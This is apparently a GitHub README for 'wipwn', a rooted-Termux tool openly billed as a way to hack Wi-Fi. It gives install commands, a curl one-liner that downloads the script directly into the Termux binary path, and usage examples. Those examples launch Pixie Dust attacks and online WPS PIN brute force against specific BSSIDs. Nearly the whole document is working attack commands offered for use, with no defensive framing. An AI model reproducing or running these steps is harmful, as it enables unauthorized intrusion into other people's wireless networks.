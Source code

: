 # Limpiar
Hack wifi using termux (rooteado)

## < a href = "https://t.me/cybersh_official/127" > Tutorial</a>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/Raiden010/wipwn
pip install requests
cd wipwn
chmod +x wipwn.py
```
### Single cmd Setup
```bash
curl https://raw.githubusercontent.com/ShTasrif/wipwn/main/wipwn --output /data/data/com.termux/files/usr/bin/wipwn
chmod +x /data/data/com.termux/files/usr/bin/wipwn
```
### Help : `sudo python wipwn.py --help`
### Example : `sudo python wipwn.py -i wlan0 -K`
### Shortcut : wipwn 
```bash
cd $PREFIX/bin && echo 'cd $HOME ; cd wipwn ; sudo python wipwn.py -i wlan0 -K' > wipwn && chmod +x wipwn
```
### Note:
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network
- `sudo python wipwn.py -i wlan0 -K`
- - Start pixie Dust attack on a specified BSSID:
- `sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python wipwn.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

#### Modify History : 

rofl0r => Biri_B@B@ => Mohammad_Alamin (Toxinum) => SH TASRIF (CYBER SH)

<br>

<h3>Visitors :</h3>

<br>

<img src="https://profile-counter.glitch.me/ShTasrif/count.svg" alt="Visitors">

<div align="center">

<h3>━━━━ Connect with me ━━━━</h3>

<a href="https://fb.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="TOXIC-VIRUS" height="30" width="40" /></a>

<a href="https://twitter.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/twitter.svg" alt="cybershbd" height="30" width="40" /></a>

<a href="https://fb.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Mohammad Alamin" height="30" width="40" /></a>

<a href="https://instagram.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="akxvau" height="30" width="40" /></a>

</div>


